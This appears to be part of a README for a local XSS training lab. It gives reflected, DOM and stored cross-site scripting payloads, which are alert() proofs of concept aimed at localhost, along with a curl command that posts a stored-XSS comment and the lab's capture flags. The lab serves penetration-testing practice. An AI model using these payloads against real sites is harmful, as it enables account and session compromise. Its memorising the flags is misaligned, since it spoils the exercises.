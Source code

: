 ## 🎯 **HOW TO USE THE XSS LAB**

### **Method 1: Direct Browser Testing (OffSec Style)**

#### **Reflected XSS Challenge:**
1. Open: `http://localhost:5000/vulnerable/reflect`
2. Test search with: `<script>alert('XSS Works!')</script>`
3. See script execute and flag revealed in HTML source

#### **DOM XSS Challenge:**
1. Open: `http://localhost:5000/vulnerable/dom`
2. Modify URL to: `http://localhost:5000/vulnerable/dom#<img src=x onerror=alert('DOM XSS')>`
3. See client-side script execution with flag reveal

#### **Stored XSS Challenge:**
1. Submit malicious comment:
   ```bash
   curl -X POST http://localhost:5000/api/comments \
     -H "Content-Type: application/json" \
     -d '{"postId":"608f1f77bcf86cd799439021","content":"<script>alert(\"Stored XSS!\")</script>"}'
   ```
2. View HTML page: `http://localhost:5000/api/comments/post/608f1f77bcf86cd799439021/html`
3. See persistent XSS execution with flag capture

### **Method 2: Professional Tools (Burp Suite Compatible)**
- All endpoints work with **Burp Suite** interception
- **Request modification** supported
- **Parameter tampering** testing available
- **Session hijacking** scenarios possible

---

## 🏆 **VERIFICATION RESULTS**

### **✅ All 3 XSS Types Confirmed Working:**
- **Reflected XSS**: ✅ Browser execution confirmed - `FLAG{R3FL3CT3D_XSS_M4ST3R}`
- **DOM XSS**: ✅ Client-side execution confirmed - `FLAG{D0M_XSS_CSP_BYP4SS_L33T}`  
- **Stored XSS**: ✅ Persistent execution confirmed - `FLAG{ST0R3D_XSS_C00K13_TH13F}`

### **✅ Professional Features:**
- **API-based testing**: Perfect for command-line exploitation
- **Browser-based testing**: Visual XSS execution confirmation
- **Realistic vulnerabilities**: Authentic web application flaws
- **Educational value**: Real penetration testing skills development

### **✅ OffSec Compatibility:**
- **Manual discovery**: No hints, requires skill
- **Tool compatibility**: Works with Burp Suite, curl, browsers
- **Realistic scenarios**: Banking application theme
- **Flag capture**: Clear objectives with measurable success

---